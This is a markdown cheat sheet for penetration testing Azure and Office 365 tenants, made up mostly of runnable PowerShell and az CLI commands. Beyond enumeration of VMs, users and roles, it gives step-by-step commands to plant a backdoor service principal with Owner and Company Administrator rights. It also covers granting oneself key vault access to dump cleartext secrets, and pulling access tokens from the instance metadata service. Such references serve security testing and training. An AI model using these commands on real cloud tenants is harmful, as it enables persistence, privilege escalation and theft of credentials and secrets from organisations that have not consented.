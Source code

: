 # Cloud Pen-testing Part-2

````markdown
## Microsoft Azure & O365 CLI Tool Cheatsheet (Part - 2)

### Virtual Machines

#### List VMs and get OS details

```powershell
Get-AzVM
$vm = Get-AzVM -Name "VM Name"
$vm.OSProfile
````

**Run commands on VMs**

```powershell
Invoke-AzVMRunCommand -ResourceGroupName $ResourceGroupName -VMName $VMName -CommandId RunPowerShellScript -ScriptPath ./powershell-script.ps1
```

#### Networking

**List virtual networks**

```powershell
Get-AzVirtualNetwork
```

**List public IP addresses assigned to virtual NICs**

```powershell
Get-AzPublicIpAddress
```

**Get Azure ExpressRoute (VPN) Info**

```powershell
Get-AzExpressRouteCircuit
```

**Get Azure VPN Info**

```powershell
Get-AzVpnConnection
```

#### Backdoors

**Create a new Azure service principal as a backdoor**

```powershell
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$spn
$BSTR = ::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = ::PtrToStringAuto($BSTR)
$UnsecureSecret
$sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId
# Enter the AppID as username and what was returned for $UnsecureSecret as the password in the Get-Credential prompt
$cred = Get-Credential
Connect-AzAccount -Credential $cred -Tenant "tenant ID" -ServicePrincipal
```

#### MSOnline PowerShell Module

**Authentication**

```powershell
Connect-MsolService
```

**Account and Directory Information**

**List Company Information**

```powershell
Get-MSolCompanyInformation
```

**List all users**

```powershell
Get-MSolUser -All
```

**List all groups**

```powershell
Get-MSolGroup -All
```

**List members of a group (Global Admins in this case)**

```powershell
Get-MsolRole -RoleName "Company Administrator"
Get-MsolGroupMember -GroupObjectId $GUID
```

**List all user attributes**

```powershell
Get-MSolUser -All | fl
```

**List Service Principals**

```powershell
Get-MsolServicePrincipal
```

#### Az CLI Tool

**Authentication**

```powershell
az login
```

**Dump Azure Key Vaults**

**List out any key vault resources the current account can view**

```powershell
az keyvault list --query '[].name' --output tsv
```

**With contributor level access, you can give yourself the right permissions to obtain secrets.**

```powershell
az keyvault set-policy --name <KeyVaultname> --upn <YourContributorUsername> --secret-permissions get list --key-permissions get list --storage-permissions get list --certificate-permissions get list
```

**Get URI for Key Vault**

```powershell
az keyvault secret list --vault-name <KeyVaultName> --query '[].id' --output tsv
```

**Get cleartext secret from key vault**

```powershell
az keyvault secret show --id <URI from the last command> | ConvertFrom-Json
```

#### Metadata Service URL

```
http://169.254.169.254/metadata
```

**Get access tokens from the metadata service**

```
GET 'http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/' HTTP/1.1 Metadata: true
```

#### Other Azure & O365 Tools

**MicroBurst**

Azure security assessment tool

[https://github.com/NetSPI/MicroBurst](https://github.com/NetSPI/MicroBurst)
